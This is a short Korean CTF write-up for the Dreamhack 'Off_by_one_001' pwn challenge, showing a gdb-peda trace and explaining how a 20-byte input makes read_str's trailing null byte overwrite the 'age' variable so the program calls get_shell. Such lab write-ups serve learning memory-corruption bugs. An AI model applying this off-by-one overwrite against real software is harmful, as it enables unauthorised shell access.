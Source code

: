 ```yaml
---
layout: post
subtitle: Off_by_one_001
comment: true
tags: [CTF, pwn]
---
```


# [문제](https://dreamhack.io/wargame/challenges/10/writeups)

```
[-------------------------------------code-------------------------------------]
   0x8048681 <main+45>: push   0x804875b
   0x8048686 <main+50>: call   0x8048420 <printf@plt>
   0x804868b <main+55>: add    esp,0x4
=> 0x804868e <main+58>: cmp    DWORD PTR [ebp-0x4],0x0
   0x8048692 <main+62>: jne    0x804869b <main+71>
   0x8048694 <main+64>: call   0x8048641 <get_shell>
   0x8048699 <main+69>: jmp    0x80486b8 <main+100>
   0x804869b <main+71>: push   0x8048769
[------------------------------------stack-------------------------------------]
0000| 0xffffcfc0 ('a' <repeats 20 times>)
0004| 0xffffcfc4 ('a' <repeats 16 times>)
0008| 0xffffcfc8 ('a' <repeats 12 times>)
0012| 0xffffcfcc ("aaaaaaaa")
0016| 0xffffcfd0 ("aaaa")
0020| 0xffffcfd4 --> 0x0 
0024| 0xffffcfd8 --> 0x0 
0028| 0xffffcfdc --> 0xf7e00f21 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804868e in main ()
gdb-peda$ x/x $ebp - 0x4
0xffffcfd4:     0x00000000
gdb-peda$ 
```
`read_str`은 최대 20바이트를 읽고 그 다음번에 `\x00`을 저장합니다. 20바이트 문자열을 넣으면 그 위치는 `age`변수가 있는 곳이므로 `age`변수가 0으로 덮이게 됩니다.
gdb 실행시에 `age`변수의 위치는 `ebp-0x4`이고 확인했을 때 0으로 잘 덮이므로 `get_shell`의 실행조건을 만족합니다.
`pwntools`쓸 필요 없이 `nc`명령으로 접속 후 20바이트 이상으로 아무 문자열이나 쳐 주시면 되겠습니다.